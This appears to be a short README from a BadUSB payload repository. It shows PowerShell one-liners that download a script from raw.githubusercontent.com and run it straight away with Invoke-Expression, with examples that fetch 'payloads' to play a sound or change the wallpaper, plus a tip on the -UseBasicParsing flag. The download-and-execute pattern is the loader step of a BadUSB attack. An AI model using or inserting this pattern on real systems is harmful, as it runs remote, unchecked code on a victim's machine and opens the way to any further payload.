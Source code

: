 ### Download and direclty run a powershell script

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/username/script.ps1
    Invoke-Expression $($ScriptFromGithHub.Content)

Example - Play Sound

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/PlaySound.ps1 -UseBasicParsing
    Invoke-Expression $($ScriptFromGithHub.Content)
    
Example - Change Wallpaper

    $ScriptFromGithHub = Invoke-WebRequest https://raw.githubusercontent.com/offport/BadUSB/main/Windows/Payloads/ChangeWallpaper.ps1 -UseBasicParsing
    Invoke-Expression $($ScriptFromGithHub.Content)

If you get the error "The response content cannot be parsed because the Internet  Explorer engine is not available,", Add the following opion:

    -UseBasicParsing
